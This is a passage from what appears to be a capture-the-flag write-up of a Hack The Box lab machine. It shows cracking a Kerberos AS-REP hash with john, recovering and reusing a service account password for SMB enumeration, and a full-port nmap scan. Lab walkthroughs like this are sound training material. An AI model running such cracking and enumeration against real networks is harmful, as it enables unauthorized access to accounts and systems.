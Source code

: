 Great! We are back on track! We then cracked the hash using `john`.
{% highlight bash %}
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)
1g 0:00:00:06 DONE (2019-10-26 03:10) 0.1457g/s 595591p/s 595591c/s 595591C/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

With `svc-alfresco:s3rvice`, I tried enumerating for `SMB` shares using `smbmap` but found nothing :(
{% highlight bash %}
smbmap -H htb.local -u svc-alfresco -p s3rvice
[+] Finding open SMB ports....
[+] User SMB session establishd on htb.local...
[+] IP: htb.local:445	Name: htb.local                                         
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	NO ACCESS
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
	NETLOGON                                          	READ ONLY
	SYSVOL                                            	READ ONLY
{% endhighlight %}

With no other service to try out the credentials, I re-scanned for open ports, but this time from ports 1-65535.

{% highlight bash %}
$ nmap -sS -p 1-65535 htb.local
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-16 08:40 EST
Nmap scan report for htb.local (10.10.10.161)
Host is up (0.25s latency).
Not shown: 65511 closed ports
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49684/tcp open  unknown
49698/tcp open  unknown
49708/tcp open  unknown